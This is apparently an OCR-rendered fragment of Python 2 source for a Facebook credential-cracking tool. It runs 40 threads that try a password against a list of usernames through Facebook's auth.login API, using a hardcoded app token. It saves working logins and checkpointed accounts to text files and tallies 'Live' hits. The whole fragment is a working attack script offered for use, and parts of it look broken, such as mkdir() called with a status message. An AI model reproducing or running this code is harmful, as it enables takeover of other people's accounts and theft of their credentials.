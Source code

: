 	try:
		file = open((idlist), "r")
		mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		for x in range(40):
			pick = threading.Thread(target=scrak, args=())
			pick.start()
			threads.append(pick)
		for pick in threads:
			pick.join()
	except IOError:
		print ("\033[1;91m[!] File not found")
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()

def scrak():
	global sucessful,checkpoint,action_failed,back,up
	try:
		os.mkdir('out')
	except OSError:
		pass
	try:
		open_it = open(idlist, "r")
		up = open_it.read().split()
		while file:
			username = file.readline().strip()
			url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(username)+"&locale=en_US&password="+(passw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6"
			data = urllib.urlopen(url)
			mpsh = json.load(data)
			if back == (len(up)):
				break
			if 'access_token' in mpsh:
				bisa = open("out/mbf_ok.txt", "w")
				bisa.write(username+"|"+passw+"\n")
				bisa.close()
				x = requests.get("https://graph.facebook.com/"+username+"?access_token="+mpsh['access_token'])
				z = json.loads(x.text)
				sucessful.append("\033[1;97m[ \033[1;92mOK✓\033[1;97m ] "+username+"|" +passw+" =>"+z['name'])
			elif 'www.facebook.com' in mpsh["error_msg"]:
				check_it = open("out/mbf_cp.txt", "w")
				check_it.write(username+"|"+passw+"\n")
				check_it.close()
				checkpoint.append("\033[1;97m[ \033[1;93mCP✚\033[1;97m ] "+username+"|" +passw)
			else:
				action_failed.append(username)
				back +=1
			sys.stdout.write('\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack    \033[1;91m:\033[1;97m '+str(back)+' \033[1;96m>\033[1;97m '+str(len(up))+' =>\033[1;92mLive\033[1;91m:\033[1;96m'+str(len(sucessful))+' \033[1;97m=>\033[1;93mCheck\033[1;91m:\033[1;96m'+str(len(checkpoint)));sys.stdout.flush()
	except IOError:
		print"\n\033[1;91m[!] Sleep"
		time.sleep(0.01)
	except requests.exceptions.ConnectionError:
		print"\033[1;91m[✖] No connection"
